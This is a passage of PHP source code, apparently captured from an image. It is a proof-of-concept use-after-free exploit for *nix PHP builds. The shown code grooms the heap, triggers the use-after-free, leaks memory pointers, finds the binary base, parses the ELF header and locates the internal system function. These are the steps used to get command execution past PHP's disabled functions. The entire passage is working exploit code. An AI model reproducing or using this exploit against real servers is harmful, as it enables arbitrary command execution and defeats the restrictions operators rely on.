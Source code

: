```
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }
    
    function trigger_uaf($arg) {
    
        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }
    
    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }
    
    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
    
    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];
    
    $helper = new Helper;
    $helper->b = function ($x) { };
    
    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }
    
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;
    
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);
    
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);
    
    $closure_obj = str2ptr($abc, 0x20);
    
    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }
    
    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }
    
    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }
    
    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


```